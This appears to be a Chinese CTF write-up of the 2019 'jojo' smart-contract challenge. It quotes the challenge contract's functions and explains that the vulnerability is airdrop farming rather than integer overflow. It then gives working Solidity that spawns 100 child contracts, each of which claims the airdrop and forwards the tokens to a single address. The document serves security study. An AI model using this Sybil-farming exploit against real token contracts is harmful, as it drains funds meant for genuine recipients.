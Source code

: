 # 数字经济云公测CTF jojo

题目: [https://github.com/beafb1b1/challenges/tree/master/szjj/2019_jojo](https://github.com/beafb1b1/challenges/tree/master/szjj/2019_jojo)

首先我们想要payforflag，需要有10w余额
```js
    function payforflag(string b64email) public {
        require(balanceOf[msg.sender] >= 100000);
        emit SendFlag(b64email);
}
```
程序允许选手想合约转账，转账的以太坊数量就是余额
```js
function jojogame() payable{
        uint geteth=msg.value/1000000000000000000;
        balanceOf[msg.sender]+=geteth;
    }
```
空投函数gift
```js
function gift() public {
        assert(gift[msg.sender]==0);
        balanceOf[msg.sender]+=100;
        gift[msg.sender]=1;
}
```
转账函数
```js
    function transfer(address to,uint value) public{
        assert(balanceOf[msg.sender] >= value);
        balanceOf[msg.sender]-=value;
        balanceOf[to]+=value;
}
````
转战函数无法整形溢出，这里考点就是薅羊毛攻击
通过建立多个自合约领取空投，然后转账给固定账户即可完成攻击payforflag
```js
contract father {
    function createsons(){
        for (uint i=0;i<100;i++)
        {
            son ason=new son();
        }
    }
}

contract son {
    constructor() public{
        jojo tmp = jojo(0xd86ed76112295a07c675974995b9805912282eb3);
        tmp.gift();
        tmp.transfer(0xafFE1Eeea46Ec23a87C7894d90Aa714552468cAF,100);
    }
}
```